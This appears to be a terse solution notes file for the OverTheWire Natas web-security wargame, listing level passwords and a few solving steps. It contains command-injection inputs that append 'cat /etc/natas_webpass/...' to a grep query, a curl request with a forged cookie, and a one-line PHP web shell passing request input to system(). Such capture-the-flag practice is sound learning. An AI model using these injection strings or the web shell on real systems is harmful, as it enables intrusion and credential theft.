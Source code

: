 #### Level1
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

#### Level2
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

#### Level3
* natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

#### Level4
* natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

#### Level5
* natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

#### Level6
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

#### Level7
* /etc/natas_webpass/natas8
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

#### Level8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

#### Level9
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

#### Level10
* curl -X GET "http://127.0.0.1:8001/level9.php?needle=-A+1+level1"
* grep -P '\d{4}' file.txt
* grep -i ; cat /etc/natas_webpass/natas10 file.txt
* nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

#### Level11
* grep -i $ cat /etc/natas_webpass/natas11 dictionary.txt
* U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

#### Level12
* curl -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -H "Cookie: data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK" -X GET "http://natas11.natas.labs.overthewire.org/"
* EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

#### Level13
> > 	$s=$_REQUEST['simba']; system($s);
* jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY


